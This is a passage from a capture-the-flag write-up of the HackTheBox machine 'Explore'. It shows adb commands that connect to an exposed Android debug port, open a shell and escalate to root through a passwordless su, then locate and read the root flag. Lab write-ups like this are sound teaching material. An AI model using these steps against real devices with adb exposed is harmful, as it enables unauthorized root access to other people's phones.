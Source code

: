 `apt install adb` will install the tools needed to interact with Android
debug. `adb devices` will list the currently connected devices:

    
    
    oxdf@parrot$ adb devices
    List of devices attached
    
    

`adb connect [ip]` will start the connection, and it shows connected:

    
    
    oxdf@parrot$ adb connect localhost:5555
    connected to localhost:5555
    oxdf@parrot$ adb devices
    List of devices attached
    localhost:5555  device
    

`adb shell` will drop to a shell:

    
    
    oxdf@parrot$ adb shell
    x86_64:/ $ 
    

If for some reason there are multiple devices connected from my VM, `adb -s
localhost:5555 shell` will specify which to connect to.

### root

That’s still a low-priv connection. Luckily for me, when I connect over `adb`,
`su` with no password will drop to root:

    
    
    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
    

I’ll run `find` to locate the flag (as there’s no `/root`) in `/data`:

    
    
    :/ # find / -name root.txt 2>/dev/null
    /data/root.txt
    :/ # cat /data/root.txt
    f04fc82b************************
    

[](/2021/10/30/htb-explore.html)

